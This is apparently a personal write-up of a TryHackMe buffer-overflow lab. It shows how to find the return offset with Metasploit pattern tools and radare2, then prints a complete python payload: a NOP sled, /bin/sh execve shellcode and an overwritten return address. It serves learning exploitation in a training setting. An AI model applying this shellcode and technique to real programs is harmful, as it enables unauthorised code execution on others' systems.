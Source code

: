 **Find offset**

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

- Use as input for program
- Find offset of stack frame pointer (rbp)
```
> r2 -d buffer_overflow [pattern]
> aa
> dr
``` 
- Use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [pattern found in rbp]`
  (Keep Little Endianness in mind)
- Offset of pattern is 144


**Find address of buffer**
Provide argument `AAAA` to program

```
> r2 -d buffer_overflow AAAA
> aa
> pdf @sym.copy_arg
> db [address of 'call sym.imp.puts]
> dc
> afvd
```
var var90_h seems to hold our value, so this must be the buffer

You can also find the address of the buffer by looking at the memory area around the stack pointer (radare2):
`px @rsp` 

![Address of buffer](./img/buffer_address.png)
![Memory around stack pointer](./img/stack_memory.png)

Fill the ebp with this value:

`python -c "print(NOP * some amount + shell code (30 bytes) + random data to fill up to 144 bytes + buffer address)"`  

`python -c "print('\x90' * 90 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + 'A' * 22 + '\x50\xe2\xfe\xff\xff\xff\xf7')"`







badchars: \x3b ---> WTF? Ask TryHackMe community?


Try it with pwntools, see this write up: https://l1ge.github.io/tryhackme_bof1/